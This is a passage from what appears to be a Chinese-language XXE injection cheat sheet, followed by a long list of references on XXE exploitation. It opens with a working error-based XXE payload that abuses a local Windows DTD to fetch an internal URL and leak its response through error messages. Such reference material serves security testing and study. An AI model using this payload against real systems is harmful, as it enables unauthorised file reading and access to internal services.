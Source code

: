 ### 披露HTTP响应：

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

## 参考资料

- [XML 外部实体 (XXE) 处理 - OWASP](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)
- [XML 外部实体防御速查表](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [在 SAML 接口中检测和利用 XXE](http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html) - 2014年11月6日 - Von Christian Mainka
- [[Gist] staaldraad - XXE 有效载荷](https://gist.github.com/staaldraad/01415b990939494879b4)
- [[Gist] mgeeky - XML 攻击](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870)
- [在文件上传功能中利用 xxe - BLACKHAT WEBCAST - 2015年11月19日 - Will Vandevanter - @_will_is_](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)
- [XXE 无所不在！！！（包括苹果 iOS 的 Office 查看器）](http://en.hackdig.com/08/28075.htm)
- [从盲 XXE 到根级文件读取权限 - 2018年12月12日 - Pieter Hiele](https://www.honoki.net/2018/12/from-blind-xxe-to-root-level-file-read-access/)
- [我们如何获得谷歌生产服务器的读取权限](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/) 2014年4月11日 - detectify
- [在 UBER 的 26+ 个域名上通过盲 OOB XXE 被黑](http://nerdint.blogspot.hk/2016/08/blind-oob-xxe-at-uber-26-domains-hacked.html) 2016年8月5日 - Raghav Bisht
- [通过 SAML 进行 OOB XXE](https://seanmelia.files.wordpress.com/2016/01/out-of-band-xml-external-entity-injection-via-saml-redacted.pdf) 作者 Sean Melia @seanmeals
- [在 Uber 中利用 XXE 读取本地文件](https://httpsonly.blogspot.hk/2017/01/0day-writeup-xxe-in-ubercom.html) 2017年1月
- [SVG 中的 XXE](https://quanyang.github.io/x-ctf-finals-2016-john-slick-web-25/) 2016年6月22日 - YEO QUAN YANG
- [渗透测试 XXE - @phonexicum](https://phonexicum.github.io/infosec/xxe.html)
- [利用本地 DTD 文件进行 XXE 利用](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) - 2018年12月12日 - Arseniy Sharoglazov
- [Web 安全学院 >> XML 外部实体 (XXE) 注入 - 2019 PortSwigger Ltd](https://portswigger.net/web-security/xxe)
- [自动化本地 DTD 发现以进行 XXE 利用](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation) - 2019年7月16日 - Philippe Arteau
- [利用 Excel 进行 XXE - 2018年11月12日 - MARC WICKENDEN](https://www.4armed.com/blog/exploiting-xxe-with-excel/)
- [excel-reader-xlsx #10](https://github.com/jmcnamara/excel-reader-xlsx/issues/10)
- [Midnight Sun CTF 2019 Quals - Rubenscube](https://jbz.team/midnightsunctfquals2019/Rubenscube)
- [SynAck - 深入 XXE 注入](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/) - 2019年7月22日 - Trenton Gordon
- [Synacktiv - CVE-2019-8986: TIBCO JasperReports 服务器中的 SOAP XXE](https://www.synacktiv.com/ressources/advisories/TIBCO_JasperReports_Server_XXE.pdf) - 2019年3月11日 - Julien SZLAMOWICZ, Sebastien DUDEK
- [XXE: 如何成为绝地大师](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_yarbabin_XXE_Jedi_Babin.pdf) - Zeronights 2017 - Yaroslav Babin
- [针对 Cisco 和 Citrix 的有效载荷 - Arseniy Sharoglazov](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
- [在加固服务器上使用 XXE 进行数据泄露 - Ritik Singh - 2022年1月29日](https://infosecwriteups.com/data-exfiltration-using-xxe-on-a-hardened-server-ef3a3e5893ac)
